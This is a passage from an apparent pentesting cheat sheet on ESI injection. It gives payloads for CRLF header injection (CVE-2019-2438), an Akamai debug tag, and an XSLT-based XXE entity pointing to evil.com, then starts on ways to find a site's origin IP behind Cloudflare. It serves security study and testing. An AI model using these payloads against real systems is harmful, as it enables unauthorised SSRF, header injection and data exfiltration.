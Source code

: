 #### CRLF in Add header (**CVE-2019-2438)**

Copy

```
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```

#### Akamai debug

This will send debug information included in the response:


```
<esi:debug/>
```

### ESI + XSLT = XXE

By specifying the `xslt` value for the _dca_ parameter, it is feasible to include `**eXtensible Stylesheet Language Transformations (XSLT)**` based ESI. The inclusion causes the HTTP surrogate to retrieve the XML and XSLT files, with the latter filtering the former. Such XML files are exploitable for _XML External Entity (XXE)_ attacks, enabling attackers to execute SSRF attacks. However, the utility of this approach is limited since ESI includes already serve as an SSRF vector. Due to the absence of support in the underlying Xalan library, external DTDs are not processed, preventing local file extraction.


```
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```

XSLT file:


```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```






# <font color="red">Uncovering Cloudflare</font>
### Common techniques 
-   
    You can use some service that gives you the **historical DNS records** of the domain. Maybe the web page is running on an IP address used before.
    
    - Same could be achieve **checking historical SSL certificates** that could be pointing to the origin IP address.
        